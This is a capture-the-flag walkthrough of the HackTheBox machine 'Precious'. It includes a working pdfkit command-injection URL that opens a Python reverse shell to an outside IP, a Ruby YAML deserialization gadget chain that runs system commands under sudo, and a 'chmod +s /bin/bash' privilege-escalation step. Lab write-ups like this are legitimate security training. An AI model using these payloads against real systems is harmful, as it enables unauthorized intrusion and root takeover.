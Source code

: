 ```yaml
---
title: "Precious HackTheBox"
collection: publications
permalink: /publication/precious
excerpt: 'This is a free machine from HackTheBox'
date: 2023-03-24
venue: '03-24'
#paperurl: 'http://academicpages.github.io/files/paper1.pdf'
#citation: 'Your Name, You. (2009). &quot;Paper Title Number 1.&quot; <i>Journal 1</i>. 1(1).'
---
```


![header](/images/precious.png)

**LINK:** [precious](https://app.hackthebox.com/machines/Precious)

---

## Enumeration : 

* Let's scan the target 

![precious1](/images/precious1.png)

* The scan shows that we have 2 open ports
* Port 80 redirects to precious.htb
* Let's add precious.htb to our /etc/hosts
* We have no subdomains or directories, so let's focus on the web server
* The web server offers a service that convert web pages into pdf files
* Let's start a web server on our machine

![precious2](/images/precious2.png)

* Let's enter the ip address and the port number that our server is running on 

![precious3](/images/precious3.png)

* A pdf file should be downloaded to your machine

![precious4](/images/precious4.png)

* Let's check the metadata of our pdf file using exiftool

![precious5](/images/precious5.png)

* As you can see the pdf file is generated by pdfkit v0.8.6
* After a quick research we found that this version is vulnerable https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795

* The package pdfkit is vulnerable to Command Injection where the URL is not properly sanitized
* we can craft a reverse shell using this payload

```bash
http://10.10.16.24/?name=%20 `python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.18.2.136",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'`
```

![precious6](/images/precious6.png)

* After you submit your payload, you should receive your reverse shell

![precious7](/images/precious7.png)


## Foothold :

* We can't access the user.txt file inside henry's directory

![precious8](/images/precious8.png)

* I found a directory called .bundle inside ruby's directory

![precious9](/images/precious9.png)

* The config file reveals the password for henry

* Let's switch the user to henry 

![precious10](/images/precious10.png)


## Privilege Escalation : 

* Let's check the sudo permissions

![precious11](/images/precious11.png)

* Let's take a look at update_dependencies.rb file

![precious12](/images/precious12.png)

* I noticed that the code uses a YAML.load which is vulnerable to diserialization attacks
* Check this article: https://swisskyrepo.github.io/PayloadsAllTheThingsWeb/Insecure%20Deserialization/YAML/#pyyaml

* Let's create a file called dependencies.yml inside henry's directory

```bash
 ---
 - !ruby/object:Gem::Installer
     i: x
 - !ruby/object:Gem::SpecFetcher
     i: y
 - !ruby/object:Gem::Requirement
   requirements:
     !ruby/object:Gem::Package::TarReader
     io: &1 !ruby/object:Net::BufferedIO
       io: &1 !ruby/object:Gem::Package::TarReader::Entry
          read: 0
          header: "abc"
       debug_output: &1 !ruby/object:Net::WriteAdapter
          socket: &1 !ruby/object:Gem::RequestSet
              sets: !ruby/object:Net::WriteAdapter
                  socket: !ruby/module 'Kernel'
                  method_id: :system
              git_set: whoami
          method_id: :resolve 
```

* Run the file

![precious13](/images/precious13.png)

* Add this line to the dependencies.yml file

```bash
"chmod +s /bin/bash"
```

![precious14](/images/precious14.png)

* Run the file 

```bash
sudo /usr/bin/ruby /opt/update_dependencies.rb
```

![precious15](/images/precious15.png)
